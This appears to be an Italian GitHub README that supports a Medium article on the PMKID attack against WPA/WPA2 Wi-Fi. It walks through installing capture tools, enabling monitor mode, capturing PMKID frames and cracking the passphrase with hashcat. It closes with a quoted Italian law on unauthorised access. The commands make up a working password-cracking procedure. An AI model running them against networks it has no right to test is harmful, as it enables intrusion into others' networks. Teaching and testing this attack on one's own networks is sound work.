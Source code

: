 # PMKID ATTACK

<div align="center">
 <img src="https://miro.medium.com/max/1354/1*D5RpNYKS1LzMb3sV8PMHbQ.png">
</div>

Questo repository è di supporto all'articolo riguardo il **PMKID ATTACK** disponibile [qui](https://medium.com/@mariocuomo/pmkid-attack-parte-1-9ae5433ea85e).<br>
L'articolo tra ispirazione dal [post](https://hashcat.net/forum/thread-7717.html) pubblicato il 4 agosto 2018 sul forum di **hashcat** riguardo una vulnerabilità nel protocollo Wi-Fi Protected Access (WPA e WPA2).


#### SCENARIO
Un Client che non è in possesso della password di un Access Point cerca di ricevere un messaggio contenente un **PMKID** - una stringa cifrata il cui unico parametro ignoto è il **PMK**.<br>
Il **PMK** è generato a partire dalla password in chiaro e altre varibili note al Client.<br>
Conoscendo il processo generativo del PMK dalla password e quello del PMKID a partire dal PMK, il Client cerca di costruire un **PMKID*** a partire da password note.


#### TOOL NECESSARI
- [hcxdumptool](https://github.com/ZerBea/hcxdumptool), uno strumento che come suggerisce la descrizione del repository github è in grado di 'acquisire pacchetti da dispositivi wlan e scoprire potenziali punti deboli all'interno delle proprie reti WiFi'.<br>
È necessario quindi possedere una scheda wireless che supporti la _monitor mode_.
- [hcxtools](https://github.com/ZerBea/hcxtools), uno strumento che come suggerisce la descrizione del repository github permette di 'converti i pacchetti dalle acquisizioni per rilevare i punti deboli all'interno delle proprie reti WiFi analizzando gli hash'
- [hashcat](https://hashcat.net/hashcat/), uno strumento che implementa diversi algoritmi di cifratura e utilizzato per il recupero password


## PASSO 1 - INSTALLARE I VARI TOOL
È necessario clonare i repositori hcxdumptool e hcxtools.
```Bash
git clone https://github.com/ZerBea/hcxdumptool.git
cd hcxdumptool
make && make install

git clone https://github.com/ZerBea/hcxtools.git
cd hcxtools
make && make install
```

## PASSO 2 - IMPOSTARE LA PROPRIA SCHEDA IN MODALITÀ MONITOR
Uno strumento per impostare la propria interfaccia wireless in modalità monitor è [Airmon-ng](https://aircrack-ng.org/doku.php?id=it:install_aircrack)
```Bash
wget http://download.aircrack-ng.org/aircrack-ng-1.0.tar.gz
tar -zxvf aircrack-ng-1.0.tar.gz
cd aircrack-ng-1.0
make
make install
```

Se x è il nome della propria interfaccia - scopribile tramite il comando ```ifconfig``` - lanciare il comando 
```Bash
airmon-ng start x
```
Da questo momento il nome della interfaccia wireless avrà la forma x**mon**.<br>
Per avere una conferma rilanciare il comando ```ifconfig```.



## PASSO 3 - CATTURARE PACCHETTI DI INTERESSE
A questo punto è necessario catturare i pacchetti di interesse.<br>
Il comando minimale è il seguente, dove il parametro **-o** indica il file di output sul quale si scriverà e il parametro **-i** indica la sorgente dalla quale si cattureranno i pacchetti.

```Bash
hcxdumptool -o pacchetti.pcapng -i xmon 
```

Un parametro di interesse da aggiungere è **enable_status**.<br>
Questo parametro permette di specificare a quali pacchetti siamo interessati:<br>

**1**: EAPOL<br>
**2**: PROBEREQUEST/PROBERESPONSE<br>
**4**: AUTHENTICATON<br>
**8**: ASSOCIATION<br>

Siamo interessati ai pacchetti EAPOL.

```Bash
hcxdumptool -o pacchetti.pcapng -i xmon --enable_status=1
```

Il file creato può essere visualizzato con [wireshark](https://www.wireshark.org/).<br>
È possibile filtrare i pacchetti di interesse con il filtro wireshark ```eapol && wlan.rsn.ie.pmkid```

<div align="center">
 <img src="https://github.com/mariocuomo/PMKID/blob/main/resources/whireshark.png">
</div>

## PASSO 4 - CONVERTIRE IL FILE OUTPUT DI HCXDUMPTOOL
Il file .pcapng deve ora essere convertito in un formato comprensibile ad hashcat.<br>
In accordo a quanto previsto per la versione 6.2.5 di hashcat costruiamo un file con estensione .hc22000.

```Bash
 hcxpcapngtool -o hash.hc22000 -E wordlist pacchetti.pcapng
 ```
<div align="center">
 <img src="https://github.com/mariocuomo/PMKID/blob/main/resources/hcxpcapngtool.png">
</div>
 
## PASSO 5 - LANCIARE IL MECCANISMO DI BRUTEFORCE
Se si osserva il file appena creato esso segue la seguente forma:

**PROTOCOL** * **TYPE** * **PMKID/MIC** * **MACAP** * **MACCLIENT** * **ESSID** * **ANONCE** * **EAPOL** * **MESSAGEPAIR**

L'ESSID è espresso in esadecimale.<br>
Al solo titolo di esempio, si lanci il seguente script per decodificarli:

```Bash
awk -F "*" '{ system("echo " $6 " | xxd -r -p; echo" ) }' hash.hc22000
```
 
Si hanno tutte le informazioni necessarie per iniziare la computazione del PMKID.<br>
Come si è visto nell'articolo è necessario iniziare da una password, generare il PMK e successivamente il PMKID*.<br>
Ma da quali password iniziare?<br>
Si può utilizzare una lista di password candidate o si può esprimere una **mask**.<br>
Una mask descrive la struttura della passoword: si immagini di avere una password composta da 8 cifre decimali.<br>
Il comando è il seguente

```Bash
hashcat -m 22000 hash.hc22000 -a 3 -w 4 ?d?d?d?d?d?d?d?d
```

Il parametro -a indica l'hash type e il parametro -w indica il profilo di workload.

<div align="center">
 <img src="https://github.com/mariocuomo/PMKID/blob/main/resources/hashcat.png">
</div>

et voilà, tocca solamente attendere!

---

> **Art.615-ter. (Accesso abusivo ad un sistema informatico e telematico).<br>
> Chiunque abusivamente si introduce in un sistema informatico o telematico protetto da misure di sicurezza ovvero vi si mantiene contro la volontà espressa o tacita di chi ha il diritto di escluderlo, è punito con la reclusione fino a tre anni.**

---
